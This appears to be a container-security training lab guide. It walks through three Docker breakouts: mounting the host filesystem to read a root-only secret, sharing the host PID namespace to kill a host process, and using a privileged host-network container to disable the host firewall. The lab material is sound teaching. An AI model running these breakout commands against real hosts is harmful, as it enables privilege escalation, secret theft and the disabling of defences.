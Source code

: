## Container Breakout - Multiple Attacks

### Volume Mounts

* ssh into the container virtual lab or open Terminal in the VM

    ```
    ssh root@<IPAddrGivenToYou>
    password: <passwordGivenToYou>

    ```

* Run `whoami` to confirm that you are the `root` user.

```commandline
root@we45:~# whoami
root
root@we45:~#
```

* Validate that there's a secrets file in the root dir with `cat secret.txt`

* Run `sudo su we45` to login as a normal user.

    ```commandline
    root@we45:~# sudo su we45
    we45@we45:~$
    ```

* Check if the user `we45` has access to `docker` by running `docker images` and `docker ps`

    ```commandline
    we45@we45:~$ docker images
    we45@we45:~$ docker ps
    ```

* Run `cat /root/secret.txt` read the content of `secret.txt` file that was created by `root` user.

```commandline
we45@we45:~$ cat /root/secret.txt
cat: /root/secret.txt: Permission denied
```

* Run `docker run -ti --rm -v /root:/hostFS/ alpine sh` as `we45`(non-root user)

```commandline
we45@we45:~$ docker run -ti -v /:/hostFS/ alpine
/ #
```

* Run `cat /hostFS/secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
This is a secret
```

* Run `exit` to exit from the container.

```commandline
/hostFS/root # exit
we45@we45:~$
```


* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

### PID Boundary

* Run `tmux` to create a multiplexed terminal. Your screen should have a band below that looks like this:

![](img/tmux-greenband.png)

* Now, type `ctrl + b + Shift+"` to split panes horizontally. We're going to operate on two panes

![](img/split_pane.png)

* Let's first operate on the top pane, with the command `ctrl + b + (upper arrow key)`
* Now, run our program `./root/super_important_process.sh`. It should start running a "super important" process
* Let's operate on the lower pane with `ctrl + b + (lower arrow key)`
* Here, run `docker run -ti --pid=host alpine sh`
* Now run `ps aux` and look at the process tree. You will see that your container's processes and the host's processes have NOT been isolated
* Now run `ps aux | grep 'super'` to triangulate the super_important process. get the `pid` of the process
* now run `kill <pid>` and you will see that the super important process (running on host) is now terminated.

![](img/terminate_process.png)

* Let's dismantle the multiplexed terminal session, with `ctrl + b + x`, you will be presented with a prompt like this:

![](img/remove_tmux.png)

* press `y` to select `yes` and the window shuts down. Do the same with the other tmux session as well

### Host Network

* Check if `ufw` is enabled on the host machine by running `ufw status`

```commandline
root@we45:~# ufw status
Status: inactive
```

* Enable `ufw` by running `ufw enable` and `ufw allow ssh`

* Run `docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask`

```
docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
WARNING: Published ports are discarded when using host network mode
de08041d12e0ed8f4aa0ee3ceeef65c760baee2b9d1c839a89d5ba642a506d03
```

* Now run `docker ps` and copy the `CONTAINER_ID` of the running container

```
[root@container-training-centos ~]# docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
de08041d12e0        abhaybhargav/vul_flask   "python app.py"     3 seconds ago       Up 2 seconds                            dreamy_ptolemy
```

* Now run `docker exec -it <container ID> /bin/bash` you should now be in the shell environment in the container

* Run `apt update && apt install -y ufw` to install the firewall program

* Run `ufw status` and you should see that the firewall is active.

* Now run `ufw disable` to disable the firewall from the Container

* Run `exit` to exit the docker shell and run `clean-docker`